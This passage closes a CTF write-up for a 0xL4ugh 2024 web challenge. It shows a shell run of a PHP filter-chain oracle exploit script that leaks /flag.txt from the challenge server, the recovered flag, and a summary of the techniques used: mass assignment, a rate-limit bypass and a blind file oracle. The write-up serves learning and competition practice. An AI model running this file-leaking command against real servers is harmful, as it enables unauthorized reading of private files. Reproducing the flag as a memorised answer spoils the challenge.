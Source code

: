 ```python
                return requ
        except requests.exceptions.ConnectionError :
            print("[-] Could not instantiate a connection")
            exit(1)
        return None
[...]
```

**Finally, we can fire up the tool and leak the flag contents!**
```shell
┌[siunam♥Mercury]-(/opt/php_filter_chains_oracle_exploit)-[2024.02.12|14:27:38(HKT)]-[git://main ✗]
└> python3 filters_chain_oracle_exploit.py --target http://20.55.48.101/user_photo.php --file '/flag.txt' --parameter img
[*] The following URL is targeted : http://20.55.48.101/user_photo.php
[*] The following local file is leaked : /flag.txt
[*] Running POST requests
b'MHhMNHVnaHtBaGhoaGhfSG9wM19VX0RpZF8hdF9ieV9UaDNfSW50ZW5kZWRfV0BAeX0K'
b'0xL4ugh{Ahhhhh_Hop3_U_Did_!t_by_Th3_Intended_W@@y}\n'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/leak_flag.gif)

> Yes, this is a GIF image, it's slowly leaking it XD

- **Flag: `0xL4ugh{Ahhhhh_Hop3_U_Did_!t_by_Th3_Intended_W@@y}`**

## Conclusion

What we've learned:

1. Mass Assignment vulnerability
2. Rate limiting bypass
3. Blind file oracle with PHP filter chains